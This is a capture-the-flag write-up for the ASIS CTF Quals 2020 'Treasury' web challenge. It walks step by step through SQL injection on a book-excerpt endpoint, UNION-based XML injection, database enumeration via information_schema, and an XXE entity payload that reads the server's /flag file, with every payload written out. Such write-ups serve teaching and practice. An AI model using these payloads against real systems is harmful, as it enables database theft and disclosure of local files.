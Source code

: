 # Treasury (ASIS CTF Quals 2020)
> [A Cultural Treasury](https://poems.asisctf.com/)

## Treasury #1
We start off by opening the given URL, we get information about some books :
  
![Treasury Root Page](img/Treasury-Root-Page.png "Treasury Root Page")

We open the Network tab in the developer tools and we notice that a request was made to <https://poems.asisctf.com/books.php?type=list>, with the initiator being this [treasury.js](https://poems.asisctf.com/treasury.js) file :

![Treasury Network books request](img/Treasury-Network-books-request.png "Treasury Network books request")

After opening [treasury.js](https://poems.asisctf.com/treasury.js), we see two fetch calls :  
- The [first one](img/Treasury-treasury.js-fetch-excerpt.png "Treasury treasury.js fetch excerpt") is made to `'/books.php?type=excerpt&id=' + book.id`
- The [second one](img/Treasury-treasury.js-fetch-list.png "Treasury treasury.js fetch list") is made to `'books.php?type=list'`

### SQL injection
After testing the `type` parameter for values other than `excerpt` or `list`, we always get an error : `Invalid type`

Moving on to the `id` parameter, only the IDs 1, 2 and 3 return some data (the book excerpts).  
But if we try to put something like `' OR '1'='1` it works ! It fetches the excerpt of the first book successfully (<https://poems.asisctf.com/books.php?type=excerpt&id='+OR+'1'%3D'1>)

Now let's try a UNION injection with `' UNION SELECT 'ANYTHING` (<https://poems.asisctf.com/books.php?type=excerpt&id='+UNION+SELECT+'ANYTHING>)  
We get an error message indicating that the server tried to load an XML string out of the string `ANYTHING` that we provided in the union query :

![Treasury SQLi Error ANYTHING](img/Treasury-SQLi-Error-ANYTHING.png "Treasury SQLi Error ANYTHING")

#### Dirty approach (error based)
Great ! So now we can fetch anything from the database, and output it in the error message, and in fact this is the approach I took when I continued solving this challenge the first time.  
But there is a little problem (which is more like an inconvenience) : the error message prints only 80 characters max and stops printing when it encounters a newline, so when fetching data from the database we have to make sure that the newlines are replaced and print only 80 characters at a time, you can find the script I used to do that [here](error-based-solve.py "error-based-solve.py")

#### Clean approach (XML injection)
Now, for a better and cleaner approach, if we think a little bit about this, since the server is expecting to load an XML string from the database, we can actually create our own XML in the union injection and let the server parse it.  
But we have to know the structure of the XML string it expects...  
Well. We can guess, right ? Since we're fetching book excerpts, maybe it expects an `excerpt` tag ? Let's see :
- Let this be the XML we're injecting
```xml
<root>
  <excerpt>TESTING HERE</excerpt>
</root>
```
- Let's put it in the payload : `' UNION SELECT '<root><excerpt>TESTING HERE</excerpt></root>`, and send it
- We get `TESTING HERE` in the [response](img/Treasury-XML-injection.png "Treasury XML injection"), great ! We successfully crafted an XML string to be parsed by the server

### Database enumeration
Now using the XML injection technique, we can enumerate all existing databases, tables and their contents.

#### Enumerate all the tables
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(table_schema), '|', GROUP_CONCAT(table_name), '</excerpt></root>') FROM information_schema.tables WHERE table_schema != 'information_schema`
- **Explanation:** first of all, we wrap what we want to fetch in the previous XML tags (root and excerpt), now to fetch all the names of all databases and tables, there is a special table `information_schema.tables` which contains that information in the columns `table_schema` (database) and `table_name`. We use `GROUP_CONCAT` to get concatenate all the resulting rows in a single one (because the server fetches only the first row), and we use `CONCAT` to concatenate the resulting columns into one (else the union query would fail because of a mismatch of the number of columns), and finally we specify `WHERE table_schema != 'information_schema'` to avoid fetching information about the special database `information_schema` since it doesn't mean anything to us.
- **Response:** `ASISCTF|books`, this means that there is only the `books` table in the `ASISCTF` database

#### Enumerate the columns of ASISCTF.books
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(column_name), '</excerpt></root>') FROM information_schema.columns WHERE table_name = 'books`
- **Explanation:** again, we wrap what we need in the XML tags, and with the same technique as the previous one, we fetch all column names from the `books` table.
- **Response:** `id,info`, so now our focus is on the `info` column, which we know contains the XML strings.

### Finding the gold
Now before writing our next query, we have to put in mind that since the info column contains XML strings, we want the server not to parse those XML strings, we just want to see them in their raw form.  
Thankfully we can achieve that with MySQL's `REPLACE` function, by replacing `<` with something else.
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', REPLACE(GROUP_CONCAT(info, '\n-------------------------------\n'), '<', '>'), '</excerpt></root>') FROM books #`
- **Explanation:** we wrap what we need to fetch in XML tags, and use `GROUP_CONCAT` to join all infos by separating them with `\n-------------------------------\n`, and we replace `<` with `>` to avoid the interpration of the inner XML, and we use `#` in the end to comment out the rest of the query.
- **Response:** we get all the XML strings, and we notice that there is a surprise of a tag... but a welcome one :
```
>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>1>/id>
  >name>Dīvān of Hafez>/name>
  >author>Khwāja Shams-ud-Dīn Muḥammad Ḥāfeẓ-e Shīrāzī>/author>
  >year>1315-1390>/year>
  >link>https://ganjoor.net/hafez/ghazal/sh255/>/link>
  >flag>Your flag is not here! Read more books :)>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>2>/id>
  >name>Gulistan of Saadi>/name>
  >author>Abū-Muhammad Muslih al-Dīn bin Abdallāh Shīrāzī, the Saadi>/author>
  >year>1258>/year>
  >link>https://ganjoor.net/saadi/golestan/gbab1/sh36/>/link>
  >flag>OK! You can use ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884} flag, but I keep the `/flag` file secure :-/>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>3>/id>
  >name>Shahnameh of Ferdowsi>/name>
  >author>Abul-Qâsem Ferdowsi Tusi>/author>
  >year>977-1010>/year>
  >link>https://ganjoor.net/ferdousi/shahname/jamshid/sh1/>/link>
  >flag>Just if I could read files :(>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
```
As you can see, the **flag** is in the `flag` tag in the second book : `ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884}`  
But we also get this message `"I keep the /flag file secure"`, let's see how "secure" that is in the second part of this challenge.

## Treasury #2
Before going forward, make sure to read the solution of `Treasury #1` since this part is pretty easy and just uses what we gathered in the first part.

### XXE
That being said, it is now obvious that we need to read the contents of `/flag`.
> Just if I could read files :(

Oh yes we can... XML provides us with the great feature of loading external resources using DocType Definitions (DTD), and this falls in the range of **XXE attacks** (XML eXternal Entity).

Here is the XML we'll be injecting to read the contents of `/flag` :
```xml
<!DOCTYPE excerpt [
   <!ELEMENT excerpt ANY >
   <!ENTITY flag SYSTEM  "file:///flag" >]>
<root>
  <excerpt>&flag;</excerpt>
</root>
```
As you can see, we use a DOCTYPE definition and define `flag` as an entity that reads the `/flag` file, so when we issue `&flag;` in the `excerpt` tag, it will replace the `flag` "variable" with the contents of `/flag`. Let's see :
- **Query payload:** `' UNION SELECT '<!DOCTYPE excerpt [<!ENTITY flag SYSTEM "file:///flag">]><root><excerpt>&flag;</excerpt></root>`
- **Explanation:** nothing much to explain, we just inject the XML in the UNION query
- **Response:** `ASIS{03482b1821398ccb5214d891aed35dc87d3a77b2}`, we get the second **flag** as expected, **very COOL**.
